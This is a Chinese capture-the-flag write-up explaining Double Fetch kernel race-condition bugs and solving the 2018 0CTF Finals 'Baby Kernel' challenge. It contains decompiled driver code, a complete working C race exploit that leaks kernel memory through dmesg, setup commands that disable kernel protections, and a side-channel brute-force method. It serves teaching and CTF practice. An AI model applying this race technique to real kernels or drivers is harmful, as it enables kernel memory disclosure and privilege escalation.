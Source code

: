 

## Double Fetch

### 概述

Double Fetch从漏洞原理上属于条件竞争漏洞，是一种内核态与用户态之间的数据访问竞争。

在Linux等现代操作系统中，虚拟内存地址通常被划分为内核空间和用户空间。内核空间负责运行内核代码、驱动模块代码等，权限较高。而用户空间运行用户代码，并通过系统调用进入内核完成相关功能。通常情况下，用户空间向内核传递数据时，内核先通过通过copy\_from\_user等拷贝函数将用户数据拷贝至内核空间进行校验及相关处理，但在输入数据较为复杂时，内核可能只引用其指针，而将数据暂时保存在用户空间进行后续处理。此时，该数据存在被其他恶意线程篡改风险，造成内核验证通过数据与实际使用数据不一致，导致内核代码执行异常。

一个典型的Double Fetch漏洞原理如下图所示，一个用户态线程准备数据并利用系统调用进入内核，该数据在内核中有两次被取用，内核第一次取用数据用于安全检查（如缓冲区大小、指针可用性等），当检查通过后内核第二次取用数据进行实际处理。而在两次取用数据之间，另一个用户态线程可创造条件竞争，对已通过检查的用户态数据进行篡改，在真实使用时造成访问越界或缓冲区溢出，最终导致内核崩溃或权限提升。



![典型的Double Fetch原理图](https://ws2.sinaimg.cn/large/d9e4cccely1fznqv7bfuvj20qr0cmdgr.jpg)

### 2018 0CTF Finals Baby Kernel

#### 题目分析

首先用IDA对驱动文件进行分析，可见flag是硬编码在驱动文件中的。

```c
.data:0000000000000480 flag            dq offset aFlagThisWillBe
.data:0000000000000480                                         ; DATA XREF: baby_ioctl+2A↑r
.data:0000000000000480                                         ; baby_ioctl+DB↑r ...
.data:0000000000000480                                         ; "flag{THIS_WILL_BE_YOUR_FLAG_1234}"
.data:0000000000000488                 align 20h
```

驱动主要注册了一个baby\_ioctl函数，函数中包含两个功能，当ioctl中cmd参数为0x6666时，驱动将输出flag的内核加载地址。当ioctl中cmd参数为0x1337时，首先进行了三个校验，接着对用户输入的内容与硬编码的flag进行字符串比较，当一致时通过printk将flag输出出来。

```c
signed __int64 __fastcall baby_ioctl(__int64 a1, attr *a2)
{
  attr *v2; // rdx
  signed __int64 result; // rax
  int i; // [rsp-5Ch] [rbp-5Ch]
  attr *v5; // [rsp-58h] [rbp-58h]

  _fentry__(a1, a2);
  v5 = v2;
  if ( (_DWORD)a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    result = 0LL;
  }
  else if ( (_DWORD)a2 == 0x1337
         && !_chk_range_not_ok((__int64)v2, 16LL, *(_QWORD *)(__readgsqword((unsigned __int64)&current_task) + 4952))
         && !_chk_range_not_ok(
               v5->flag_str,
               SLODWORD(v5->flag_len),
               *(_QWORD *)(__readgsqword((unsigned __int64)&current_task) + 4952))
         && LODWORD(v5->flag_len) == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( *(_BYTE *)(v5->flag_str + i) != flag[i] )
        return 0x16LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    result = 0LL;
  }
  else
  {
    result = 0xELL;
  }
  return result;
}
```

而分析其检查函数，其中\_chk\_range\_not\_ok为检查指针及长度范围是否指向用户空间，而不是内核空间。通过分析，可以得到用户输入的数据结构体如下：

```
00000000 attr            struc ; (sizeof=0x10, mappedto_3)
00000000 flag_str        dq ?
00000008 flag_len        dq ?
00000010 attr            ends
```

其检查内容为：1. 输入的数据指针是否为用户态数据。2. 数据指针内flag\_str是否指向用户态。 3. 数据指针内flag\_len是否等于硬编码flag的长度。

#### 解题思路

根据之前的Double Fetch漏洞原理，不难发现此题目存在一个Double Fetch漏洞，当用户输入数据通过验证后，再将flag\_str所指向的地址改为flag硬编码地址后，即会输出flag内容。

首先，利用提供的0x6666命令，可以通过`dmesg`命令，获取内核中flag的加载地址。

然后，构造符合0x1337命令的数据结构，其中flag\_len可以从硬编码中直接获取为33，flag_str指向一个用户态地址。然后再创建一个恶意线程，不断的将flag\_str所指向的用户态地址修改为拿到的flag内核地址制造竞争条件，最后从`dmesg`命令中拿到flag内容。

#### Exploit

```c
// gcc -static exp.c -lpthread -o exp
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000  //碰撞次数
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
//线程函数，不断修改flag指向的地址为内核中flag地址
void change_attr_value(void *s){
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
    int addr_fd;
    char *idx;
    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   
	//获取内核硬编码的flag地址
    system("dmesg > /tmp/record.txt");
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }
	//构造attr数据结构
    t.len = 33;
    t.flag = buf;
    //新建恶意线程
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}
```

#### 其他

此题在环境配置时，有两点需要注意。

首先，启动时不要开启SMAP保护，否则在内核中直接访问用户态数据会引起kernel panic。

其次， 需关闭dmesg\_restrict，否则无法查看printk信息，具体操作是在启动脚本中加入：

```bash
echo 0 > /proc/sys/kernel/dmesg_restrict
```

最后，此题存在一种侧信道攻击的非预期解法：

>
>
>由于是flag是硬编码的，并且是逐字节比较的，可以逐字节爆破来得到flag。方法是将待比较的字节放在mmap申请的页末位，当得到正确的一字节时，会比较用户空间内下一个字节的正确性，此时由于该地址是不可读的，造成内核访问错误，导致kernel panic，从而可以判断是否爆破正确。

##  Reference and Thanks to

https://www.usenix.org/conference/usenixsecurity17/technical-sessions/presentation/wang-pengfei

https://veritas501.space/2018/06/04/0CTF%20final%20baby%20kernel/

http://p4nda.top/2018/07/20/0ctf-baby/

https://www.freebuf.com/articles/system/156485.html



